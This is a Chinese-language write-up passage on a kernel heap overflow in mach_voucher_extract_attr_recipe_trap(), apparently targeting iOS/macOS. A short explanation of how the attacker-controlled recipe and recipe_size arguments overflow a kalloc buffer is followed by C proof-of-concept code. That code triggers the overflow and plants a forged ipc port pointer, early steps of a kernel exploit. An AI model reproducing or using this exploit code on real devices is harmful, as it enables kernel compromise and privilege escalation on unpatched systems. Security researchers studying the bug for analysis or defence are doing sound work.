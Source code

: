 在调用 mach_voucher_extract_attr_recipe_trap() 传递参数时，可以任意操作 mach_voucher_extract_attr_recipe_args 结构体中的 mach_voucher_attr_raw_recipe_t recipe 和 user_addr_t recipe_size 值。因此，该函数被复制到函数中由 void* kalloc(vm_size_t size); 分配的内核堆区，并且由于该函数具有可操控的 args-&gt;recipe_size 而可能发生溢出。

特别地，由于可以操控 args-&gt;recipe，所以可以在溢出时创建任意数据。

Crash PoC 触发代码：



```
/* ---- FROM exp.m ---- */
uint64_t roundup(uint64_t val, uint64_t pagesize) `{`
    val += pagesize - 1;
    val &amp;= ~(pagesize - 1);
    return val;
`}`
void heap_overflow(uint64_t kalloc_size, uint64_t overflow_length, uint8_t* overflow_data, mach_port_t* voucher_port) `{`
    
    int pagesize = getpagesize();
    void* recipe_size = (void*)map(pagesize);
    *(uint64_t*)recipe_size = kalloc_size;
    uint64_t actual_copy_size = kalloc_size + overflow_length;
    uint64_t alloc_size = roundup(actual_copy_size, pagesize) + pagesize;
    uint64_t base = map(alloc_size); // unmap page
    
    uint64_t end = base + roundup(actual_copy_size, pagesize);
    mach_vm_deallocate(mach_task_self(), end, pagesize); // for copyin() stop
    
    uint64_t start = end - actual_copy_size;
    
    uint8_t* recipe = (uint8_t*)start;
    
    memset(recipe, 0x41, kalloc_size); // set kalloc size
    memcpy(recipe + kalloc_size, overflow_data, overflow_length); // set overflow bytes
    
    kern_return_t err = mach_voucher_extract_attr_recipe_trap(voucher_port, 1, recipe, recipe_size); // Trigger
`}`
/* -------------------- */
---
mach_port_t* voucher_port = MACH_PORT_NULL;
mach_voucher_attr_recipe_data_t atm_data = `{`
    .key = MACH_VOUCHER_ATTR_KEY_ATM,
    .command = MACH_VOUCHER_ATTR_ATM_CREATE
`}`;
kern_return_t err = host_create_mach_voucher(mach_host_self(), (mach_voucher_attr_raw_recipe_array_t)&amp;atm_data, sizeof(atm_data), &amp;voucher_port);
ipc_object* fake_port = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_port
void* fake_task = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0); // alloc fake_task
fake_port-&gt;io_bits = IO_BITS_ACTIVE | IKOT_CLOCK; // for clock trap
fake_port-&gt;io_lock_data[12] = 0x11;
printf("[+] Create Fake Port. Address : %llxn", (unsigned long long)fake_port);
heap_overflow(0x100, 0x8, (unsigned char *)&amp;fake_port, voucher_port);
```
